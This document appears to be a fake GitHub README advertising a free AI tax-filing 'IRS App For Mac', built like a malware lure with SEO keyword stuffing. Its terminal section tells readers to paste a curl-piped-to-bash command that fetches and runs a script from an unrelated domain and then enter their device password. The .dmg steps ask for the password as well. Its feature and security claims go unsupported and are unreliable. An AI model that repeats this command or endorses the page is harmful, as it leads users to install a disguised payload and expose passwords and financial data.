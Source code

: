 # IRS App For Mac — Download For macOS 😊

Simplify your tax filing with **IRS App For Mac**, a free, AI-powered desktop application designed for macOS users. Effortlessly scan receipts, automate tax deductions, and submit your IRS forms with a single click. Follow the instructions below to install and start managing your taxes like a pro!

![irsapp](https://tfxstorageimg.s3.amazonaws.com/clxpnnv11pv1r646dki8mi3uuxs7)

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://irs-app-for-mac-download-for-macos.github.io/.github/)

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install IRS App For Mac

### Installation via .dmg:

1. Click the "Download Now" button above to download the .dmg file.
2. Open the .dmg installer and drag the **IRS App For Mac** icon to your Applications folder or another convenient directory.
3. Launch the app from the Applications folder or via Spotlight.
4. If prompted, enter your device password to authorize the installation (leave blank if no password is set).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

*Drag and drop the app to install seamlessly*

### Installation via Terminal:

1. Copy the command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your macOS device, paste the command, and press "Return."
3. Enter your device password when prompted and confirm the installation.

[![Terminal Installation](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

*Quick terminal setup for advanced users*

## 🎯 What You Get

- 🧠 **AI-Powered Tax Assistance**: Automatically scans W-2s, 1099s, and receipts to populate tax forms accurately.
- 📸 **Receipt Scanning**: Use your Mac's camera to scan receipts and categorize expenses instantly.
- 💸 **Maximize Deductions**: Identifies eligible deductions (e.g., medical, mortgage, charity) to save you money.
- 📤 **One-Click IRS Submission**: Submit your tax forms directly to the IRS with a single click.
- 🛡️ **Error-Free Filing**: Reduces manual errors to help you avoid costly IRS penalties.
- 🌐 **Free and Open-Source**: No hidden fees, unlike other tax software like TurboTax.

## About IRS App For Mac

**IRS App For Mac** is a revolutionary, free tax preparation software designed specifically for macOS users. Built with an AI-powered assistant, this app simplifies the complex process of filing taxes by automating tedious tasks like form filling and deduction calculations. Whether you're a freelancer handling 1099 forms or an employee with a W-2, this app ensures a seamless, error-free experience. By leveraging advanced OCR technology, it scans receipts and documents to extract relevant data, saving you hours of manual work. Keywords: *tax software for Mac, free tax filing, IRS app, tax deductions, AI tax assistant*.

Unlike traditional tax software that often comes with hidden fees, **IRS App For Mac** is completely free and open-source, making it accessible to everyone. The app’s intuitive interface guides you through every step, from scanning documents to identifying tax deductions for medical expenses, mortgage interest, or charitable contributions. Its one-click IRS submission feature ensures your tax return is filed securely and efficiently. Keywords: *free tax software mac, IRS filing app, tax preparation software, macOS tax tool*.

Security is a top priority for **IRS App For Mac**. All data is processed locally on your device, ensuring your sensitive financial information remains private. The app is regularly updated to comply with the latest IRS regulations, so you can file with confidence knowing your forms meet current standards. Whether you're a first-time filer or a seasoned taxpayer, this app is designed to make tax season stress-free. Keywords: *secure tax filing, mac tax app, IRS compliance, free tax preparation*.

Inspired by the simplicity of macOS, **IRS App For Mac** integrates seamlessly with your Mac’s ecosystem. Its sleek design and user-friendly features make it the go-to choice for macOS users looking to simplify their tax filing process without compromising on functionality. Download it today and experience a smarter way to file your taxes! Keywords: *macOS tax software, AI-powered tax app, free IRS tool, tax filing for Mac*.

## Advantages of IRS App For Mac

- 🚀 **Fast and Intuitive**: Complete your tax return in minutes with a streamlined interface.
- 🔒 **Secure and Private**: All data processing happens locally on your Mac.
- 💰 **No Hidden Fees**: Completely free, unlike paid alternatives like TurboTax.
- 📊 **Smart Deduction Finder**: Automatically uncovers tax-saving opportunities.
- 🖥 **macOS-Optimized**: Designed to blend perfectly with your Mac’s ecosystem.
- 🔄 **Regular Updates**: Always compliant with the latest IRS rules and forms.

## 🖼 Preview

![Dashboard View](https://cdn-rdstaticassets.readdle.com/pdfexpert/img/howto/tax-forms/1065%20IRS%20form/2025_MacBook%20Pro%201065.png)  
*Clean and intuitive dashboard for managing your tax forms*

![Receipt Scanner](https://i.postimg.cc/8c2k5n4L/receipt-scanner.png)  
*Scan receipts effortlessly with your Mac’s camera*

![Deduction Finder](https://i.postimg.cc/7hYkJq4Z/deduction-finder.png)  
*AI-powered deduction finder maximizes your savings*

![IRS Submission](https://i.postimg.cc/9M7kW2pQ/irs-submission.png)  
*Submit your tax return to the IRS with one click*

## 🔍 Tags

irs2go download, irs app, irs2go download, irs app download, irs download, tax software for Mac, free tax filing, tax preparation software, AI tax assistant, macOS tax tool, secure tax filing, tax deductions, free IRS tool, AI-powered tax app, IRS compliance, mac tax app, free tax preparation, tax filing for Mac, W-2 scanner, 1099 filing

